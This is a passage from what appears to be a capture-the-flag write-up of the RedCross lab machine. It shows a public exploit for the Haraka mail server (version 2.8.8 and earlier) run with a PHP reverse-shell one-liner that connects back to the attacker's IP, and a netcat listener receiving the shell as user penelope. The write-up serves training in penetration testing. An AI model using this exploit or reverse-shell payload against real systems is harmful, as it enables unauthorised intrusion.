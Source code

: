 After a about one minute, I got a ping back:

```

root@kali# tcpdump -i tun0 -n icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
12:55:36.153998 IP 10.10.10.113 > 10.10.14.14: ICMP echo request, id 13394, seq 1, length 64
12:55:36.154033 IP 10.10.14.14 > 10.10.10.113: ICMP echo reply, id 13394, seq 1, length 64

```

I had a hard time with a lot of common reverse shells, but I got the php one to work. It’s important to escape the inner `"` and `$`:

```

root@kali# python 41162.py -c "php -r '\$sock=fsockopen(\"10.10.14.14\",443);exec(\"/bin/sh -i <&3 >&3 2>&3\");'" -t penelope@redcross.htb -m 10.10.10.113                              
##     ##    ###    ########     ###    ##    ## #### ########  ####
##     ##   ## ##   ##     ##   ## ##   ##   ##   ##  ##     ##  ##
##     ##  ##   ##  ##     ##  ##   ##  ##  ##    ##  ##     ##  ##
######### ##     ## ########  ##     ## #####     ##  ########   ##
##     ## ######### ##   ##   ######### ##  ##    ##  ##   ##    ##
##     ## ##     ## ##    ##  ##     ## ##   ##   ##  ##    ##   ##
##     ## ##     ## ##     ## ##     ## ##    ## #### ##     ## ####
-o- by Xychix, 26 January 2017 ---
-o- xychix [at] hotmail.com ---
-o- exploit haraka node.js mailserver <= 2.8.8 (with attachment plugin activated) --
-i- info: https://github.com/haraka/Haraka/pull/1606 (the change that fixed this)

Send harariki to penelope@redcross.htb, attachment saved as harakiri-20190403-125710.zip, commandline: php -r '$sock=fsockopen("10.10.14.14",443);exec("/bin/sh -i <&3 >&3 2>&3");' , mailserver 10.10.10.113 is used for delivery

```

And after a minute:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.113.
Ncat: Connection from 10.10.10.113:35862.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(penelope) gid=1000(penelope) groups=1000(penelope)

```

#### Metasploit

